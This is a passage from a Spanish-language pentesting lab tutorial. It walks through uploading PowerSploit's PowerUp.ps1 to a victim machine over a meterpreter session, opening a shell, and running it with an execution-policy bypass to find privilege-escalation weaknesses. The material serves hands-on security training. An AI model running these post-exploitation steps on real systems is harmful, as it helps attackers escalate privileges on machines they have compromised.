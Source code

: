 ***PowerShell Mafia*** es un conjunto de scripts escritos en PowerShell que permiten interactuar con la víctima. De todos ellos nos interesa uno en concreto llamado ***PowerUp.ps1***, que está especializado en encontrar debilidades relacionadas con el escalado de privilegios.

Volvemos a la máquina ***Kali*** y en una ***NUEVA*** terminal escribimos.
```
cd ~

git clone https://github.com/PowerShellMafia/PowerSploit.git
```

Volvemos a la terminal de ***meterpreter*** y procedemos a subir el script ***PowerUp.ps1*** a la víctima por medio del comando.
```
upload /home/antonio/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1
```

Ya tenemos subido el script a la víctima. Ahora necesitamos ejecutarlo en ella. En primer lugar abrimos una ***shell*** desde el prompt de ***meterpreter***.
```
shell
```

Listamos el directorio.
```
dir
```

Podrás comprobar que ahí esta el script ***PowerUp.ps1***.

![upload](../img/lab-06-C/202209171529.png)

Ejecutamos el script.
```
powerShell -ExecutionPolicy Bypass -Command ". .\PowerUp.ps1;Invoke-AllChecks"
```

Como resultado, este script visualiza las vulnerabilidades encontradas y nos dice qué otro componente de ***PowerShell Mafia*** deberíamos usar para explotarla.

![abuse](../img/lab-06-C/202209171538.png)
